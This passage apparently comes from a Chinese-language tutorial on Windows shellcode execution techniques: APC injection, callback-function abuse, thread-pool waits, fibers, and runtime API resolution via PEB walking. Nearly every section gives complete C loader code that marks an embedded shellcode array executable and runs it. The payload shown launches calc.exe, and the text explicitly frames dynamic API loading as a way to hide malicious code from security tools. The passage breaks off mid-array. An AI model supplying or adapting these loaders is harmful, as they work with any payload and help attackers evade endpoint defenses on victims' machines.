

# 4.APC注入运行

异步过程调用（APC）队列是一个与线程关联的队列，用于存储要在该线程上下文中异步执行的函数。**操作系统内核会跟踪每个线程的 APC 队列，并在适当的时机触发队列中挂起的函数。**APC 队列通常用于实现线程间的异步通信、定时器回调以及异步 I/O 操作。

APC 队列包含两种类型的 APC：

1. 内核模式 APC：由内核代码发起，通常用于处理内核级别的异步操作，如异步 I/O 完成。
2. 用户模式 APC：由用户代码发起，允许用户态应用程序将特定函数插入到线程的 APC 队列中，
以便在线程上下文中异步执行

实现思路：

- 使用 `VirtualProtect` 函数修改 shellcode 所在内存区域的保护属性，将其设置为可执行、可读、可写（ PAGE_EXECUTE_READWRITE ），以便执行其中的代码。
- 获取`NtTestAlert` 函数的地址。这是一个内部函数，无法直接通过函数名调用。 NtTestAlert 函数用于检查当前线程的 APC 队列。如果队列中有挂起的用户模式 APC 请求， NtTestAlert 将触发它们的执行。
- 使用 `QueueUserAPC` 函数向当前线程的 APC 队列添加一个执行 Shellcode 的任务。这将在 NtTestAlert 被调用时执行 Shellcode。
- 调用` NtTestAlert` 函数，触发 APC 队列中的任务执行，实现 Shellcode 的执行

```c_cpp
#include <windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"") // 不显示黑窗

unsigned char sc[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";
typedef DWORD(WINAPI* pNtTestAlert)();
void main() {
    // 修改 shellcode 所在内存区域的保护属性，允许执行
    DWORD oldProtect;
    VirtualProtect((LPVOID)sc, sizeof(sc), PAGE_EXECUTE_READWRITE, &oldProtect);
    /*
    获取NtTestAlert函数地址, 因为它是一个内部函数.无法直接通过函数名调用
    这个函数用于检查当前线程的 APC（Asynchronous Procedure Call，异步过程调用）队列，如
    果队列中有挂起的用户模式 APC 请求，NtTestAlert 将触发它们的执行
    */
    pNtTestAlert NtTestAlert = (pNtTestAlert)(GetProcAddress(GetModuleHandleA("ntdll"),
    "NtTestAlert"));
    // 向当前线程的异步过程调用(APC)队列添加一个执行shellcode的任务
    QueueUserAPC((PAPCFUNC)(PTHREAD_START_ROUTINE)(LPVOID)sc, GetCurrentThread(),
    NULL);
    //调用NtTestAlert，触发 APC 队列中的任务执行（即执行 shellcode）
    NtTestAlert();
}
```


# 5.回调函数运行

## EnumDateFormatsA       

函数原型:

> EnumDateFormatsA 是 Windows API 中的一个函数，用于枚举特定区域设置下的日期格式（如长日期、短日期或年/月格式）。这个函数会将每种日期格式以字符串的形式传递给应用程序定义的回调函数，由回调函数处理这些日期格式。
> 
> 主要参数包括：
> 
> lpDateFmtEnumProc：指向应用程序定义的回调函数的指针，用于处理每个日期格式。
> 
> Locale：指定要检索日期格式的区域设置标识符，如系统默认或用户自定义的区域设置。
> 
> dwFlags：标志参数，指定要枚举的日期格式类型。
> 
> 函数返回值为非零表示成功，返回 0 表示失败。开发者常用这个函数来显示或处理不同区域设置的日期格式​

```c_cpp
BOOL EnumDateFormatsA(
[in] DATEFMT_ENUMPROCA lpDateFmtEnumProc, // 指向应用程序定义的回调函数的指针
[in] LCID Locale, // 用于指定要为其检索日期格式信息的区域设置的区域设置标识符
[in] DWORD dwFlags // 指定日期格式的标志
);
```

详细信息

```
https://learn.microsoft.com/zh-cn/windows/win32/api/winnls/nf-winnls-enumdateformatsa
```

示例

```c_cpp
#include <Windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"") // 不显示黑窗

unsigned char sc[] =  "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";
void main() {
    // 使用VirtualAlloc 函数申请一个 shellcode字节大小的可以执行代码的内存块
    LPVOID addr = VirtualAlloc(NULL, sizeof(sc), MEM_COMMIT | MEM_RESERVE,
   PAGE_EXECUTE_READWRITE);
    // 申请失败 , 退出
    if (addr == NULL) {
        return;
    }
    // 把shellcode拷贝到这块内存
    memcpy(addr, sc, sizeof(sc));
    // 使用回调函数调用执行
    EnumDateFormatsA((DATEFMT_ENUMPROCA)addr, NULL, NULL);
}
// 关于EnumDateFormatsA的函数参数
// 除了回调函数的指针 , 无脑强转一下 , 其他全NULL
```


除了 **EnumDateFormatsA** 回调函数, 其他的还有 **EnumUILanguages**

## EnumUILanguages

```c_cpp
#include <Windows.h>
#include "resource.h"
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"") // 不显示黑窗

unsigned char sc[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";
int main() {
    // 使用VirtualAlloc 函数申请一个 shellcode字节大小的可以执行代码的内存块
    LPVOID addr = VirtualAlloc(NULL, sizeof(sc), MEM_COMMIT | MEM_RESERVE,
   PAGE_EXECUTE_READWRITE);
    // 申请失败 , 退出
    if (addr == NULL) {
        return 1;
    }
    // 把shellcode拷贝到这块内存
    memcpy(addr, sc, sizeof(sc));
    // 回调函数调用执行
    EnumUILanguages((UILANGUAGE_ENUMPROC)addr, 0, 0);
}
```

## CertEnumSystemStore

```c_cpp
#include<Windows.h>
#include<stdio.h>
#include <Wincrypt.h> // 需要导入
#pragma comment(lib, "crypt32.lib") // 需要导入
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"") // 不显示黑窗

unsigned char sc[] = "\xfc\x48\x83\xe4\xf0";
void main() {
    LPVOID addr = VirtualAlloc(NULL, sizeof(sc), MEM_COMMIT | MEM_RESERVE, 
    PAGE_EXECUTE_READWRITE);
    if (addr == NULL) {
        return;
    }
    memcpy(addr, sc, sizeof(sc));
    CertEnumSystemStore(CERT_SYSTEM_STORE_CURRENT_USER, 0, 0, 
    (PFN_CERT_ENUM_SYSTEM_STORE)addr);
}
```

## 其他回调函数等

```
CertEnumSystemStore
CertEnumSystemStoreLocation
CreateThreadPoolWait
CreateTimerQueueTimer_Tech
CryptEnumOIDInfo
EnumCalendarInfo
EnumCalendarInfoEX
EnumChildWindows
EnumDesktopW
EnumDesktopWindows
EnumDirTreeW
EnumDisplayMonitors
EnumerateLoadedModules
EnumFontFamiliesExW
EnumFontFamiliesW
EnumFontsW
EnumUILanguages
EnumLanguageGroupLocalesW
EnumObjects
EnumPageFilesW
EnumPwrSchemes
EnumResourceTypesExW
EnumResourceTypesW
EnumSystemLocalesEx
EnumThreadWindows
EnumTimeFormatsEx
EnumUILanguagesW
EnumWindows
EnumWindowStationsW
FiberContextEdit
FlsAlloc
ImageGetDigestStream
ImmEnumInputContext
LdrEnumerateLoadedModules
SetTimer
SetupCommitFileQueueW
SymEnumProcesses
```

# 6.创建线程池运行

```c_cpp
#include<Windows.h>
#include<stdio.h>
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"") // 不显示黑窗
unsigned char sc[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";
void main() {
    // 定义一个DWORD变量，用于存储原始内存保护属性
    DWORD oldProtect;
    // 修改shellcode所在内存的保护属性为可读、可写、可执行
    VirtualProtect((LPVOID)sc, sizeof(sc), PAGE_EXECUTE_READWRITE, &oldProtect);
    // 创建一个事件对象，初始状态为有信号状态，使用默认安全属性，非手动重置，无名称
    HANDLE event = CreateEvent(NULL, FALSE, TRUE, NULL);
    /*
    CreateThreadpoolWait用于创建一个线程池等待对象的函数,
    程池等待对象允许您在等待内核对象（如事件、信号量等）变为有信号状态时执行特定的回调函数
    其语法格式如下:
    PTP_WAIT CreateThreadpoolWait(
    PTP_WAIT_CALLBACK pfnwa, //指向回调函数的指针
    PVOID pv, //传递给回调函数的参数
    PTP_CALLBACK_ENVIRON pcbe //指向线程池回调环境的指针,置NULL则表示使用默认的环境
    );
*/
    // 创建一个线程池等待对象，关联到shellcode作为回调函数，回调函数参数和线程池环境为NULL
    PTP_WAIT threadPoolWait = CreateThreadpoolWait((PTP_WAIT_CALLBACK)(LPVOID)sc,
    NULL, NULL);
    /*
    SetThreadpoolWait函数用于线程池中添加等待对象的函数。
    当等待的内核对象（如事件、信号量等）变为有信号状态时，线程池会调用与等待对象关联的回调
    函数
    其语法格式如下:
    VOID SetThreadpoolWait(
    PTP_WAIT pwa, //指向要添加到线程池的等待对象的指针
    HANDLE hObject, //要等待的内核对象的句柄,当这个内核对象变为有信号状态时,线程池会调用
    与等待对象关联的回调函数
    PFILETIME pftTimeout //指向一个FILETIME结构的指针，表示等待超时的时间
    );
    */
    // 将等待对象添加到线程池中,当事件对象event触发（变为有信号状态）时，线程池会调用与threadPoolWait关联的回调函数
    SetThreadpoolWait(threadPoolWait, event, NULL);
    // 等待事件对象变为无信号状态（表示shellcode执行完毕），无限等待
    WaitForSingleObject(event, INFINITE);
}
```



# 7.创建纤程运行

纤程（Fiber）是一种轻量级的线程，也被称为协程（Coroutine）或微线程（Microthread）。它们是一种用户级别的线程，由程序自身管理，而不是由操作系统内核管理。纤程是一种可以提高程序执行效率的调度机制，特别适用于需要大量并发执行任务的场景

```c_cpp
#include<Windows.h>
#include<stdio.h>
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"") // 不显示黑窗

unsigned char sc[] =  "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";
void main() {
    // 修改shellcode所在内存的保护属性为可读、可写、可执行
    DWORD oldProtect;
    VirtualProtect((LPVOID)sc, sizeof(sc), PAGE_EXECUTE_READWRITE, &oldProtect);
    // 将当前线程转换为纤程（轻量级线程）
    ConvertThreadToFiber(NULL);
    // 创建一个纤程对象，关联到shellcode作为纤程入口点，使用默认栈大小和无标志位
    void* shellcodeFiber = CreateFiber(0, (LPFIBER_START_ROUTINE)(LPVOID)sc, NULL);
    // 切换到新创建的纤程，开始执行shellcode
    SwitchToFiber(shellcodeFiber);
    // shellcode执行完毕后，删除纤程对象
    DeleteFiber(shellcodeFiber);
}
```



# 8.动态api函数加载

传统的静态导入API函数会在可执行文件的**导入表中明确列出所有用到的函数**。这使得恶意代码容易被安全工具和分析人员发现，因为**敏感API函数**的使用通常表明了恶意行为。比如使用创建线程运行shellcode的导入表中就存在 `CreateThread api `函数



而动态调用API函数，可以**在运行时动态解析并获取API函数的地址**。这样，敏感函数不会出现在导入表中，从而使得恶意代码更难被发现。此外，**动态调用API函数还可以结合其他技术（如代码混淆、加密等）来进一步提高恶意代码的隐蔽性**

## 实现思路

- 定位关键模块：首先找到包含核心API函数的关键模块（如kernel32.dll）。这通常可以通过解析`PEB`（Process Environment Block）中的模块列表来完成。
- 获取`GetProcAddress`：定位到kernel32.dll后，需要解析导出表（Export Table）以获取GetProcAddress函数的地址。GetProcAddress是一个核心函数，***用于在运行时动态解析其他API函数的地址***。
- 加载其他API：通过GetProcAddress函数，可以逐个获取其他需要的API函数的地址。例如，可以通过GetProcAddress获取VirtualProtect、CreateThread和WaitForSingleObject等函数的地址。
- 准备Shellcode：将Shellcode存储在缓冲区中，使用VirtualProtect函数将缓冲区的内存页属性更改为可执行，以确保可以安全地执行Shellcode。

## x86实现

```c_cpp
#include <stdio.h>
#include <windows.h>
//声明定义api函数
typedef FARPROC(WINAPI* p_GetProcAddress)(_In_ HMODULE hModule, _In_ LPCSTR
lpProcName);
typedef HMODULE(WINAPI* p_LoadLibraryA)(__in LPCSTR lpLibFileName);
typedef BOOL(WINAPI* p_VirtualProtect)(LPVOID, DWORD, DWORD, PDWORD);
typedef HANDLE(WINAPI* p_CreateThread)(LPSECURITY_ATTRIBUTES, SIZE_T,
LPTHREAD_START_ROUTINE, LPVOID, DWORD, LPDWORD);
typedef DWORD(WINAPI* p_WaitForSingleObject)(HANDLE, DWORD);
// 内联汇编函数，用于获取Kernel32.dll模块的基地址
HMODULE inline __declspec(naked) GetKernel32Moudle()
{
    __asm
     {
         mov eax, fs: [0x30] ;
         mov eax, [eax + 0xc];
         mov eax, [eax + 0x14]
         mov eax, [eax];
         mov eax, [eax];
         mov eax, [eax + 0x10];
         ret;
     }
}
//获取GetProcAddress函数的地址
DWORD pGetProcAddress(HMODULE Kernel32Base) {
    char szGetProcAddr[] = { 'G','e','t','P','r','o','c','A','d','d','r','e','s','s',0 };
    DWORD result = NULL;
    // 遍历kernel32.dll的导出表，找到GetProcAddr函数地址
    PIMAGE_DOS_HEADER pDosHead = (PIMAGE_DOS_HEADER)Kernel32Base;
    PIMAGE_NT_HEADERS pNtHead = (PIMAGE_NT_HEADERS)((DWORD)Kernel32Base +
    pDosHead->e_lfanew);
    PIMAGE_OPTIONAL_HEADER pOptHead = (PIMAGE_OPTIONAL_HEADER)&pNtHead->OptionalHeader;
    PIMAGE_EXPORT_DIRECTORY pExport = (PIMAGE_EXPORT_DIRECTORY)
    ((DWORD)Kernel32Base + pOptHead->DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
    DWORD* pAddOfFun_Raw = (DWORD*)((DWORD)Kernel32Base + pExport->AddressOfFunctions);
    WORD* pAddOfOrd_Raw = (WORD*)((DWORD)Kernel32Base + pExport->AddressOfNameOrdinals);
    DWORD* pAddOfNames_Raw = (DWORD*)((DWORD)Kernel32Base + pExport->AddressOfNames);
    char* pFinded = NULL, * pSrc = szGetProcAddr;
    for (DWORD dwCnt = 0; dwCnt < pExport->NumberOfNames; dwCnt++)
    {
        pFinded = (char*)((DWORD)Kernel32Base + pAddOfNames_Raw[dwCnt]);
        while (*pFinded && *pFinded == *pSrc)
        {
            pFinded++; pSrc++;
        }
        if (*pFinded == *pSrc)
        {
            result = (DWORD)Kernel32Base + pAddOfFun_Raw[pAddOfOrd_Raw[dwCnt]];
            break;
        }
        pSrc = szGetProcAddr;
    }
    return result;
}
int main() {
    unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
